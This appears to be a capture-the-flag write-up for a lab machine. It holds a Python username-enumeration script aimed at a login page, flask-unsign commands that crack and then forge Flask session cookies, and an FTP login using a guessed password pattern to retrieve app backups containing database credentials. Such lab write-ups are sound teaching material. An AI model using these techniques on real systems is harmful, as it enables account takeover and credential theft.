 Can brute force usernames through the login page -> error messages differ based on if a username is correct or not
```python
# script for bruteforcing usernames through the login page

#!/usr/bin/python3

import requests

url = 'http://10.10.11.160:5000/login'
f = open('/opt/SecLists/Usernames/cirt-default-usernames.txt', 'r')
proxy = { 'http' : 'http://localhost:8080' }

for i in f.readlines():
    name = i[:-1]
    data = { 'username':name, 'password':'p' }
    r = requests.post(url,data=data,proxies=proxy)
    if 'Invalid login' in r.text:
        print(name)
```
Script returns a few usernames -> note that I created the 'admin' user but not the others
```
ADMIN
Admin
admin
blue
```
Use the tool from ```https://github.com/Paradoxis/Flask-Unsign``` to crack the secret used for signing the session cookies
```bash
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YoaPAg.csHupjFKPgF8jE03sjpnLOBD3iI'
[*] Session decodes to: {'logged_in': True, 'username': 'admin'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 17152 attemptsSecret!CToOd
'secret123'
```
Use the secret to impersonate the users that were enumerated earlier
```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123' 
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YoaPtQ.rF666b7Wb6nE_c_0fJPJEd1TZM8
```
Find a note for this user with some ftp creds
![[Pasted image 20220519134356.png]]
This user's ftp doesn't have much interesting -> try to login as ftp_admin with same password scheme ```ftp_admin:ftp_admin@Noter!```
```bash
ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:hrevans): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||17487|)
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp>
```
Unzip the newest backup and check out app.py for db creds:
```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```
